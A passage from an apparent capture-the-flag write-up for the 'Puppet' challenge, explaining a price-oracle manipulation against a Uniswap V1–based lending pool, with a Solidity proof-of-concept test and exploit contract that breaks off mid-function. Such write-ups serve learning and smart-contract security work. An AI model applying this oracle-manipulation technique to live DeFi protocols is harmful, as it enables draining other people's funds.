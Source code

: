 
### Puppet

Condition:
- Only 1 tx is allowed
- All tokens of `lending pool` were deposited into `recovery`

Key Concept:
- Price Oracle Manipulation
- UniswapV1

Solution:
- According to the following two functions, we can calculate given `amount`, `depositRequired = amount * 2 * exchange.balance / token.balanceOf(exchange)`
    ```solidity
    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
    ```
- Since `amount = 100_000`, but we only have 25 ETH, we need to adjust the reserve of ETH & token inside the pool
- By observing the exchange's interface, we can leverage `tokenToEthSwapInput()` to swap token for ETH

PoC:
```solidity
// add this test
function test_puppet() public checkSolvedByPlayer {
    PuppetExploiter exploiter = new PuppetExploiter{value:PLAYER_INITIAL_ETH_BALANCE}(
        uniswapV1Exchange,
        lendingPool,
        token,
        recovery
    );

    token.transfer(address(exploiter), PLAYER_INITIAL_TOKEN_BALANCE);

    exploiter.exploit();
}

// exploit contract
contract PuppetExploiter {

    IUniswapV1Exchange public exchange;
    PuppetPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(IUniswapV1Exchange _exchange, PuppetPool _pool, DamnValuableToken _token, address _recovery) payable {
        exchange = _exchange;
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function exploit() external payable {

        token.approve(address(exchange), token.balanceOf(address(this)));
        exchange.tokenToEthSwapInput(
            token.balanceOf(address(this)),
```